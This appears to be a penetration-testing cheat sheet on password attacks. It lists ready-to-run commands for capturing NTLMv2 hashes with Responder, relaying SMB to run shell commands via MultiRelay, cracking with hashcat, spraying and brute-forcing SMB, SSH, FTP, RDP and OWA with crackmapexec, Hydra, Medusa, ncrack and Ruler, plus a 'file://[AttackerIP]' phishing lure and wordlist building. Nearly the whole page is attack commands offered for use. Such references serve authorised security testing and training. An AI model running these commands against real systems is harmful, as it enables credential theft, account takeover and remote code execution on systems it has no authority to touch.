 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 3
---
```


> **Getting Hashes**

Responder - NTLMv2 Passwords | <code> Responder.py -I eth0 -wrf </code>
Hashcat | <code> hashcat -m 5600 hashes\ntlmssp_hashes.txt passwordlists/* </code>
Responder - Basic/ForceWpad Auth | <code> python ./Responder.py -I eth0 -wfFbv </code>

> **Replay SMB**

NMAP - SMB Security Mode | <code> nmap --script smb-security-mode.nse -p445 127.0.0.1 </code>
Set up Resonder | <code> gedit Responder.conf -> Change SMB and HTTP to Off </code>
Start Responder | <code> python ./Responder.py -I eth0 -rv </code>
Start MultiRelay | <code> /opt/Responder/tools/MultiRelay.py -t [target host] -c [shell command] -u ALL </code>

> **Pasword Sparying and Hashes**

crackmapexec hashes | <code> crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes </code>
crackmapexec spray | <code> crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords </code>

> **Testing Credentials Found**

crackmapexec | <code> crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami </code>

> **Default Passwords**

* [cirt](http://www.cirt.net/passwords)
* [vulnerabilityassessment](http://www.vulnerabilityassessment.co.uk/passwords.htm)
* [default-password](https://default-password.info/)
* [routerpasswords](http://www.routerpasswords.com/)
* [phenoelit](http://www.phenoelit.org/dpl/dpl.html)

> **Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}


> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **Creating a password list**

Crunch | <code> crunch 6 6 0123456789ABCDEF -o list.txt </code>
Crunch | <code> cat /usr/share/crun/charset.lst <br> crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o mixedalpha.txt </code>
cewl | <code> cewl -m 6 http://www.linkedinprofile.com -w wordlistUniq.lst </code>
John | <code> john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist </code>

> **Password Spraying**

Spiderlabs Spray (e.g., SMB, OWA, Lync) | <code>spray.sh -owa [targetIP] [usernameList] [passwordList] [attemptsPerLockoutPeriod] [LockoutPeriodInMinutes] [Domain]</code>
Ruler (MAPI/HTTP or RPC/HTTP) | <code> rule --domain [domain] brute --users ./users.txt --passwords ./passwords.txt </code>

> **Password Guessing**

Hydra - smb | <code>hydra -l admin -P /opt/tools/passwords/wordlists/rockyou.txt 10.0.0.2 smb </code>
Hydra - snmp | <code> hydra -P password-file.txt -v 10.11.1.219 snmp </code>
Hydra - ssh | <code> hydra -l root -P password-file.txt 10.11.1.219 ssh </code>
Hydra - ftp | <code> hydra -l admin -P password-file.txt -v 192.168.1.2 ftp </code>
Medusa - HTTP | <code>medusa -h admin.megacorpone.com -u admin -P mega-mangled -M http -n 81 m DIR:/admin -T 3 </code>
ncrack - rdp | <code>ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35</code>
MSF - ftp | <code>use auxiliary/scanner/ftp/ftp_login</code>

> **Users from Password**

Ruler | <code> ruler --email [emailaddress] abk dump --output /tmp/gal.txt </code>

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php
Danielmiessler | https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials







